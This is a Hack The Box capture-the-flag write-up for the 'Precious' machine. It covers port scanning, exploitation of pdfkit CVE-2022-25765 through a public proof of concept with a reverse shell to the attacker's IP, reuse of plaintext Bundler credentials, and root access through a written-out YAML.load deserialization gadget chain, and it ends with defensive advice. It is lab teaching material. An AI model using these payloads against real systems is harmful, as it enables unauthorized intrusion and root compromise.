# HTB - Precious

**IP Address:** `10.129.228.98`  
**OS:** `Linux (Debian)`  
**Difficulty:** `Easy`  
**Tags:** #Ruby #pdfkit #YAML

---
## Synopsis

Precious exposes a Ruby web app that converts a supplied URL into a PDF. By fingerprinting the PDF generator and leveraging a vulnerable `pdfkit` version, it’s possible to achieve command execution and obtain a shell as `ruby`. From there, plaintext Bundler credentials allow SSH access as `henry` to retrieve the user flag. Finally, `henry` can run a root-owned Ruby script via `sudo` that unsafely performs `YAML.load` on a user-controlled `dependencies.yml`, enabling root code execution and retrieval of the root flag.

---
## Skills Required

- Basic network and web enumeration
- Comfort using reverse shells and `nc`
- Basic Linux privilege escalation enumeration (`sudo -l`)

## Skills Learned

- Fingerprinting PDF generation via metadata (`pdfkit`)
- Exploiting `pdfkit` command injection (CVE-2022-25765)
- Exploiting unsafe Ruby deserialization with `YAML.load`

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.228.98
```


---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.228.98 -oG allPorts
```



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,80 10.129.228.98 -oN targeted
cat targeted
```



**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22 | SSH | OpenSSH 8.4p1 (Debian) |
| 80 | HTTP | nginx + redirect to `precious.htb` |

Since HTTP redirects to a virtual host, add an `/etc/hosts` mapping:

```bash
echo "10.129.228.98 precious.htb" | sudo tee -a /etc/hosts
```

---
## 2. Service Enumeration

### 2.1 HTTP (URL to PDF app) Enumeration

With the vhost in place, the next step is to fingerprint the web stack and understand the application workflow.

```bash
whatweb http://precious.htb
curl http://precious.htb
```



Opening the site shows a single form that accepts a URL and attempts to fetch/convert it into a PDF.



Submitting typical public URLs initially failed with a generic error, indicating the backend could not fetch remote targets in that state:

```bash
curl -i -s -X POST http://precious.htb/ \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'url=http://google.com/' | sed -n '1,120p'
```



To proceed, a reachable URL was hosted on the attacker box (HTB VPN IP) so the target could fetch it and generate a PDF.

```bash
python3 -m http.server 8000
curl -i -s -X POST http://precious.htb/ \
  --data-urlencode "url=http://10.10.15.206:8000/" | sed -n '1,140p'
```



At this point, the PDF generator could be fingerprinted via metadata to identify the backend library.

```bash
printf '<html><body><h1>PRECIOUS TEST</h1><p>Hello from attacker</p></body></html>\n' > index.html
curl -s -X POST http://precious.htb/ --data-urlencode "url=http://10.10.15.206:8000/" -o out.pdf
exiftool out.pdf | egrep -i 'creator|producer|title|author|subject|create|modify'
pdftotext out.pdf - | head
```



The `Creator` field confirmed `pdfkit v0.8.6`, which is vulnerable to CVE-2022-25765 (command injection).

---
## 3. Foothold

### 3.1 Command Injection via pdfkit (CVE-2022-25765)

With the vulnerable library identified, a public PoC was pulled using `searchsploit` and configured for the Precious app (POST parameter `url`).

```bash
searchsploit pdfkit
searchsploit -m ruby/local/51293.py
mv 51293.py pdfkit_exploit.py
python3 pdfkit_exploit.py
```



Start a listener and trigger a reverse shell via the PoC:

```bash
nc -lvnp 4444
python3 pdfkit_exploit.py -s 10.10.15.206 4444 -w "http://precious.htb/" -p "url"
```



---
## 4. Privilege Escalation

### 4.1 Lateral movement to `henry` (Bundler credentials)

After landing as `ruby`, basic enumeration showed a second user `henry` and that the user flag in `/home/henry/` was not readable as `ruby`.

```bash
whoami
id
hostname
ip a
ls -la /home/
ls -la /home/henry/
cat /home/henry/user.txt
```



The `ruby` home directory contained a Bundler config file that stored plaintext credentials:

```bash
cat /home/ruby/.bundle/config
```



Using those credentials, SSH access as `henry` was obtained and the user flag retrieved:

```bash
ssh henry@10.129.228.98
cat user.txt
```



🏁 **User flag obtained:** `b06a034a21ae8e8e0a01d40a2cd866c1`

---
### 4.2 Root via unsafe YAML deserialization (sudo Ruby script)

From the `henry` shell, `sudo -l` revealed a root-executable Ruby script:

```bash
sudo -l
cat /opt/update_dependencies.rb
```



The script reads `dependencies.yml` from the current directory and uses `YAML.load`, which is unsafe for untrusted input. A malicious YAML payload was written to `/tmp/dependencies.yml` to execute commands as root.

First, verify code execution with `id`:

```bash
cd /tmp
ruby -v
cat > dependencies.yml <<'EOF'
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
EOF
sudo /usr/bin/ruby /opt/update_dependencies.rb
```



Then swap the executed command to print the root flag:

```bash
# edit only the git_set line:
# git_set: cat /root/root.txt
sudo /usr/bin/ruby /opt/update_dependencies.rb
```



🏁 **Root flag obtained:** `ffe19116013590e7552249a0976bc9f0`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerated services and identified the URL-to-PDF web application on `precious.htb`.
2. Fingerprinted `pdfkit v0.8.6` via PDF metadata and exploited CVE-2022-25765 to gain a shell as `ruby`.
3. Recovered plaintext Bundler credentials to SSH as `henry`, then abused a root-run Ruby script using `YAML.load` to execute commands as root and read `root.txt`.

---
## Defensive Recommendations

- Upgrade `pdfkit` / `wkhtmltopdf` and apply patches for CVE-2022-25765; block unsafe argument injection vectors.
- Avoid storing plaintext credentials in Bundler config and prevent password reuse across services.
- Replace `YAML.load` with `YAML.safe_load` (with strict class allowlisting) for any untrusted YAML input.
- Restrict `sudo` entries to trusted binaries/scripts and avoid loading configuration from relative paths.

